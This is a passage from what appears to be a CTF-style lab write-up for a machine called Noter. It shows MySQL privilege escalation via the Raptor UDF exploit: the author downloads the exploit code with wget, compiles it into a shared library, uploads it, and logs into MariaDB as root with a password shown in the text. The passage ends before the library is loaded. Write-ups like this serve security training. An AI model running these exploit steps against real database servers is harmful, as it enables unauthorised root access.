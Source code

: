 #### Stage Exploit

There's a bunch of
[posts](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)
out there about how to exploit MySQL running as root using some code
referred to as Raptor. The idea is that I'll write a shared library that
runs commands from SQL into the plugins directory, and then add a
command to access it and get execution as root.

I'll need to get a copy of the [exploit
file](https://www.exploit-db.com/raw/1518) and compile it using the
instructions in the comments:



    oxdf@hacky$ wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
    --2022-03-30 15:53:51--  https://www.exploit-db.com/raw/1518
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3378 (3.3K) [text/plain]
    Saving to: ‘raptor_udf2.c’

    raptor_udf2.c                                        100%[=====================================================================================================================>]   3.30K  --.-KB/s    in 0s      

    2022-03-30 15:53:51 (1.53 GB/s) - ‘raptor_udf2.c’ saved [3378/3378]
    oxdf@hacky$ gcc -g -c raptor_udf2.c
    oxdf@hacky$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc



Now I'll upload that to Noter into `/dev/shm`.

#### Load Library

I'll connect to MySQL as root, not as DB_user (that user lacks privs),
and using the `mysql` db:



    svc@noter:/dev/shm$ mysql -u root -pNildogg36 mysql
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 11402
    Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [mysql]> 



I'll create a `foo` table and read the binary into it:
